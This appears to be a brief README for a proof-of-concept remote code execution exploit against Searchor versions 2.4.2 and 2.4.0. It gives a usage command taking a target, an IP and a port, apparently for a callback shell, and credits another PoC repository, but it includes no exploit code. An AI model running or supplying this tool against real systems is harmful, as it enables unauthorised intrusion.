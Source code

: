# RCE-Searchor_2.4.2
Remote Code Execution for Searchor 2.4.2 and 2.4.0

To use it :
```
python3 searchor.py -u target.com -i <IP> -p <PORT>
```

Credit : https://github.com/jonnyzar/POC-Searchor-2.4.2
